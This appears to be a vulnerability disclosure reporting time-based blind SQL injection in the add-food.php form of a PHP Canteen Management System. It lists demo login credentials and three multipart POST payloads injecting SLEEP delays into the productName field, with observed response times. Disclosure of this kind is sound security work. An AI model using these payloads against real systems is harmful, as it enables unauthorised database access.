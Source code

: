 # Canteen Management System Project v1.0 by mayuri_k has SQL injection
BUG_Author: YorkLee

Login account: mayuri.infospace@gmail.com/rootadmin

vendors:https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

Vulnerability File: /youthappam/add-food.php

Vulnerability location: /youthappam/add-food.php POST form exists time-based blind injection vulnerability

Payload1: 

```
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="productName"

123' AND (SELECT 5842 FROM (SELECT(SLEEP(5)))JKeV) AND 'jYhF'='jYhF
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="quantity"

123
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="rate"

123
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="categoryName"

1
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="productStatus"

1
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="create"


------WebKitFormBoundarywm9jYBqgKtHi9E5z--
```
**note: the field "------WebKitFormBoundarywm9jYBqgKtHi9E5z" is from Content-Type that in http-header**

SELECT(SLEEP(5)) The server response time is 5 seconds

![image](pic/1.png)

Payload2: 

```
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="productName"

123' AND (SELECT 5842 FROM (SELECT(SLEEP(10)))JKeV) AND 'jYhF'='jYhF
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="quantity"

123
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="rate"

123
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="categoryName"

1
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="productStatus"

1
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="create"


------WebKitFormBoundarywm9jYBqgKtHi9E5z--
```
**note: the field "------WebKitFormBoundarywm9jYBqgKtHi9E5z" is from Content-Type that in http-header**

SELECT(SLEEP(10)) The server response time is 10 seconds

![image](pic/2.png)

Payload3: 

```
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="productName"

123' AND (SELECT 5842 FROM (SELECT(SLEEP(15)))JKeV) AND 'jYhF'='jYhF
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="quantity"

123
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="rate"

123
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="categoryName"

1
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="productStatus"

1
------WebKitFormBoundarywm9jYBqgKtHi9E5z
Content-Disposition: form-data; name="create"


------WebKitFormBoundarywm9jYBqgKtHi9E5z--
```
**note: the field "------WebKitFormBoundarywm9jYBqgKtHi9E5z" is from Content-Type that in http-header**

SELECT(SLEEP(15)) The server response time is 15 seconds

![image](pic/3.png)

